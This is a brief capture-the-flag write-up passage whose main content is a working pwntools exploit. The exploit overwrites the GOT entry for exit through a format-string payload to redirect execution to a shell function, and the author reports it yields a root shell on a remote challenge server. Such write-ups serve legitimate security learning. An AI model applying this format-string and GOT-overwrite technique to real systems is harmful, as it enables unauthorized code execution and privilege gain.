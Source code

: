 Code sometimes doesn't work.(It works, just gets hung sometimes). Running script couple of times fixs the problem.

## Exploit goes brrr.

```Python
from pwn import *
from pwnlib.fmtstr import fmtstr_payload

context.terminal=['tmux', 'new-window']

elf = context.binary = ELF('./malicious', checksec=False)


gs = '''
b main
'''

GOT_EXIT = elf.got['exit']
binshell = elf.symbols['binshell']

#FOR DEBUGGING PROCESS
def start():
    return gdb.attach(elf.path, gdbscript=gs)


def get_payload():
	#4 is the offset that we calculated earlier
    payload = fmtstr_payload(4, {GOT_EXIT:binshell})
    return payload

p = process(elf.path)


log.info("exit_got @" + hex(GOT_EXIT))
log.info("bin @" + hex(binshell))


#interacting with the binary


p.sendlineafter("?", "yes")
p.recvline()
p.sendline(get_payload())

p.interactive()

```


My exploit was 100% reliable in my local machine however it failed couple of times on remote server. Running it couple of times spawns the root shell.
